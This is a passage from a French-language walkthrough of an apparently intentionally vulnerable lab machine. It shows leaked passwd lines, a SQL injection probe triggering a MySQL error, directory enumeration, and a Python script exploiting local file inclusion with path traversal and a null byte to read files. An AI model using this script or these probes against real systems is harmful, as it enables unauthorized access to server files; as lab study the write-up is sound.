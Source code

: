 ```plain
ossecm:x:507:508::/var/ossec:/sbin/nologin
ossecr:x:508:508::/var/ossec:/sbin/nologin
```

Dans d'autres URLs on trouve un paramètre id. Et repaff !  

```plain
http://192.168.1.99/index.html?page=blog&title=Blog&id=%22%27
Warning: mysql_fetch_row(): supplied argument is not a valid MySQL result resource in /var/www/html/pages/blog.php on line 20
```

Et ben voilà ! C'est de l'élevage, ils ont fait un lâcher ! Vous connaissez mon côté sportif, j'ai failli remettre le couteau dans l'étui...  

Mais puisqu'on a commencé, finissons cette boucherie.  

Sous */mail/* on trouve un *SquirrelMail* 1.4.17.  

Sous */restricted/* il y a une section privée qui demande une authentification (erreur 401). Cette dernière n'est pas bypassable avec *Wapiti*.  

Sous */conf/* on obtient une erreur 500 (I*nternal Server Error*)  

Sous */sql/* on trouve un script *db.sql* qui contient des instructions pour créer une base de donnée baptisée *ehks* et correspondant au site principal.  

Et sous */admin/* on trouve un formulaire de connexion protégé... avec un javascript qui retire les apostrophes et double-quotes !  

Commencer le massacre
---------------------

Ça a beau être de l'élevage, le vrai chasseur sait rendre la traque plus intéressante si il le faut.  

Pour cela j'ai écrit un script Python qui exploite la faille d'inclusion et va automatiquement tester la présence de fichiers listés dans *files.txt*.  

Le principe est le suivant : on teste un path de fichier dans l'URL (en ajoutant la remontée d'arborescence et l'octet nul) et on regarde via *BeautifulSoup* si on a du contenu présent dans la balise div où se fait normalement l'inclusion de données.  

```python
import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.99/index.html?page=../../../../../..PARAM%00&title=Blog"

fd = open("files.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get(URL.replace("PARAM", word))
    bs = BeautifulSoup(r.content)
    content = bs.find("div", id="main").text.strip()
    if len(content):
        print "Contenu trouve avec", word
fd.close()
```
